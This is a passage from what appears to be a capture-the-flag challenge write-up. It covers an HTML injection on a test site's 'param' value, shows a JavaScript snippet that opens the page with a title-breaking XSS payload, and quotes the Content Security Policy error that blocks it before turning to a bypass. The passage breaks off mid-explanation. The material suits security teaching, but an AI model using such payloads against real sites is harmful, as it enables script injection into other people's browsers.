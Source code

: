 ## Step 3: HTML Injection
Let's try adding `?param=Test` into our link and see what happens. 

![Param=test](../assets/BugPoC/param=test.png)

We've got an injection! 

Let's put in our custom XSS payload and see if it fires:

```javascript
function openPage() {
const windowName = "iframe";
var payload = "Test</title><script>alert(origin)<\/script>"
const otherTab = window.open("https://wacky.buggywebsite.com/frame.html?param="+payload, windowName);
}
```

Hmm, it doesn't seem to work. I wonder why?

## Error 1: Integrity Bypass

Checking the Developer Console, it turned out that there's a CSP which we have to bypass.

```
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'nonce-ojwxhtogmjlu' 'strict-dynamic'". Either the 'unsafe-inline' keyword, a hash ('sha256-sot4TsoYPMqH9HF0f7P0xsez7m6YnNiGcQWr7OJ6FBc='), or a nonce ('nonce-...') is required to enable inline execution.
```

So either we have to add the `unsafe-inline` keyword to the CSP which we don't control (not possible) or guess a nonce which is randomly generated (probably not possible), or add a hash to our script. Since we control the script, this option should be possible. Let's read the [page source](view-source:https://wacky.buggywebsite.com/frame.html) regarding the iframe again:
